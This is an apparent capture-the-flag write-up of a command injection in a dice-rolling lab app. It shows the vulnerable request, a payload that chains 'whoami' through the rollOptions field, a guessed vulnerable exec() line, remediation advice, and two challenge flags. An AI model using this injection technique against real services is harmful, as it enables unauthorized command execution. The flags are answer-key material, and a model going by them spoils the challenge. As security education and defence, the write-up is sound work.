


**Diceforge** is a dice-rolling web app from Bugforge's daily challenges. You pick dice, it rolls them. Somewhere between picking dice and rolling them, user input reaches a shell. Let's find out where.

## Recon

The app is a small game interface:



Rolling a single d6 fires this request:

## The Vulnerable Request

```http
POST /api/roll HTTP/2
Content-Type: application/json

{
  "dice": [
    { "type": "d6", "count": 1 }
  ],
  "rollOptions": "none"
}
```

And the server happily rolls the die:

```json
{
  "notation": "1d6",
  "results": [ { "type": "d6", "rolls": [4], "subtotal": 4 } ],
  "grandTotal": 4
}
```

Everything looks innocent until you ask one question: what does the server *do* with `rollOptions`?

A string called "options" that isn't reflected anywhere in the UI usually means one thing — it's being concatenated into something dangerous. In this case, a shell command.

## Command Injection

If `rollOptions` ends up in a command like `roll --options <value>`, then a semicolon should let me chain my own command. Classic test:

```json
{ "dice": [{ "type": "d6", "count": 1 }], "rollOptions": "none;whoami" }
```



The response came back with a new field I hadn't seen before:

```json
{
  "grandTotal": 3,
  "output": "bug{mAq24pT9oRztc90KwJpDh6gKOl0CjGTE}"
}
```

Remote code execution. The `whoami` output (which on this box is the flag itself) was appended straight into the JSON response.

## Why It Works

Somewhere in the backend there's likely code along the lines of:

```js
exec(`roll ${diceNotation} --options ${rollOptions}`);
```

Any time unsanitized input touches `exec()`, `spawn()` with a shell, or a system call, the semicolon becomes a doorway. OWASP A03:2021 — Injection covers this exact case.

## Remediation

- **Never pass user input to a shell.** Use language-native libraries (e.g., a dice library) instead of shelling out.
- If you must execute commands, use `execFile`-style APIs with **argument arrays** — no string concatenation, no shell interpolation.
- **Allowlist inputs:** `rollOptions` should only ever accept known values like `none`.
- Even with allowlists, run the service with minimal privileges so an escape stays contained.

<spoiler>flag{roll_options_rce}</spoiler>
